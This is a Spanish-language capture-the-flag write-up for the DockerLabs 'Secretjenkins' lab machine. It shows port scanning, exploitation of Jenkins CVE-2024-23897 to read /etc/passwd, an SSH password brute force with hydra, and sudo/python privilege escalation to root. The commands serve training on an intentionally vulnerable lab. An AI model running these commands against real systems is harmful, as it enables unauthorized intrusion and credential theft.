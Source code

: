 # Máquina Secretjenkins

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,8080 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open   ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94fb28597fae02c0564607338cac5285 (ECDSA)
|_  256 43075030bb28b0739b7c0c4e3fc9bf02 (ED25519)
8080/tcp open   http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![Pasted image 20240511183108](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f6863828-3c2c-4274-927b-ab323dffe3d4)

--------------
## Explotación

Hay un proyecto en **github** que maneja una vulnerabilidad específica para esta versión de **Jenkins**.
Link al exploit -> [Exploit](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)

Seguimos los pasos, y lo primero de todo es descargarse el **jenkins-cli.jar** para poder explotar un **LFI**:

```
http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```

![Pasted image 20240511183553](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/766d44d1-f252-40b5-8452-e220c7372428)

Con este archivo ejecutamos el siguiente comando para tratar de leer el **/etc/passwd**:

```shell
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"
```

![Pasted image 20240511183811](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2fe80803-8b96-4ec2-9383-14930637ce4e)

Tenemos el **LFI** y vemos un usuario **pinguinito** y **bobby**.
Tras probar con fuerza bruta al **ssh** sobre ambos usuarios, encontramos la contraseña de **bobby**.

```shell
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
```

Estamos dentro !

------------
## Escalada de privilegios

```shell
sudo -l
--------------
User bobby may run the following commands on 1e9c73d6dd94:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Podemos ejecutar **python** como el user **pinguinito**. Podemos abusar de este con:

```shell
sudo -u pinguinito /usr/bin/python3
-> import os
-> os.system("bash")
whoami
-------------------------------------
pinguinito
```

Volvemos a hacer **sudo -l**:

```shell
sudo -l
-----------------
User pinguinito may run the following commands on 1e9c73d6dd94:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Podemos ejecutar un script que hay en **opt** como **root**.

![Pasted image 20240511185829](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a28f6928-28e9-43f3-ab5b-cc7f2c4584ae)

```shell
ls -l /opt/script.py
------------------------------------
-r-xr--r-- 1 pinguinito root 272 May 11 08:22 /opt/script.py
```

Observamos que somos el propietario del script, podemos darle permisos, modificarlo, y ejecutarlo como **root**:

```shell
chmod 744 /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ echo "import os" > /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ echo 'os.system("bash")' >> /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ sudo /usr/bin/python3 /opt/script.py
```

![[Pasted image 20240511190820.png]]

```shell
root@1e9c73d6dd94:/opt# whoami
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
